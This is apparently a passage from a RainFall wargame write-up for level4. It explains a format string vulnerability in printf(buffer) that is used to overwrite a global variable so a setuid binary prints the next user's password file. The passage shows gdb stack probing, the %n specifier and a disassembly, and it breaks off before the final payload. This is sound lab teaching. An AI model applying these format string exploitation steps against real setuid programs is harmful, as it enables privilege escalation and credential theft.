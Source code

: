 We can see that this time we have, an `fgets()` function instead of a `gets()` function, which is protected against *buffer overflow*, but the `printf()` is vulnerable against `format string` exploits. And also a global variable `m`, which is what determines if we can access the `system("/bin/cat /home/user/level5/.pass")`.


### Permissions
As we can see in the permissions of the executable file, the binary `./level4` is executed with the privileges of the user **level5**, the owner of the file.
```bash
level4@RainFall:~$ ls -l level4 
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
Input:
AAAA %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x

Breakpoint 1, 0x0804847f in n ()
(gdb) x/s $eax
0xbffff440:	 "AAAA %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x78232520	0x78232520	0x78232520
0xbffff450:	0x78232520	0x78232520	0x78232520	0x78232520
(gdb) continue
Continuing.

AAAA 0xb7ff26b0 0xbffff684 0xb7fd0ff4 0 0 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 [0x41414141 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520]
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't have any parameter to retreive from), we can identify our *input string* `0x41414141 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520` on the **12th** *format specifier* / *argument*.

There is one *format specifier* in `printf` that allow us to store the **number of characters** written so far, into the integer pointed to by the corresponding argument: `%n`. We can specify in which argument we want this **number of characters** to be stored in, by specifying it like this: `%<argumentNumber>$n`.

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218
   0x08048460 <+9>:	mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
```